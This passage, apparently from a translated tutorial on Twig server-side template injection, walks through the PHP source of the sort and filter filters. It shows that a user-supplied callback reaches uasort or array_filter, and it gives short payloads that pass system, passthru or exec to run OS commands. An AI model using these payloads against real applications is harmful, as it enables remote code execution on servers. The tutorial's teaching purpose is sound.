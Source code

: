 > Similar to map, the twig_sort_filter function will be entered during the template compilation process. The source code of this twig_sort_filter function is as follows

```php
function twig_sort_filter($array, $arrow = null)
{
    if ($array instanceof \Traversable) {
        $array = iterator_to_array($array);
    } elseif (!\is_array($array)) {
        throw new RuntimeError(sprintf('The sort filter only works with arrays or "Traversable", got "%s".', \gettype($array)));
    }

    if (null !== $arrow) {
        uasort($array, $arrow); // is called directly by uasort
    } else {
        asort($array);
    }

    return $array;
}
```

> From the source code, we can see that `$array` and `$arrow` are called directly by the `uasort` function. Since the `uasort` function can use a user-defined comparison function to sort elements in the array by key values. If a dangerous function is customized, it will cause code execution or command execution.

<img src="./images/2.png" alt="">

> Payload

```php
{{["calc", 0]|sort("system")}}
{{["calc", 0]|sort("passthru")}}
{{["calc", 0]|sort("exec")}} // No echo
```

### filter filter
> This filter filter uses an arrow function to filter elements in a sequence or map, which is used to receive the values ​​of the sequence or map.

```php
{% set lists = [34, 36, 38, 40, 42] %}
{{ lists|filter(v => v > 38)|join(', ') }}

// Output: 40, 42
```

> Similar to map, the `twig_array_filter` function will be entered during the template compilation process. The source code of this `twig_array_filter` function is as follows

```php
function twig_array_filter($array, $arrow)
{
    if (\is_array($array)) {
        return array_filter($array, $arrow, \ARRAY_FILTER_USE_BOTH); // $array and $arrow are called directly by the array_filter function
    }

    // the IteratorIterator wrapping is needed as some internal PHP classes are \Traversable but do not implement \Iterator
    return new \CallbackFilterIterator(new \IteratorIterator($array), $arrow);
}
```
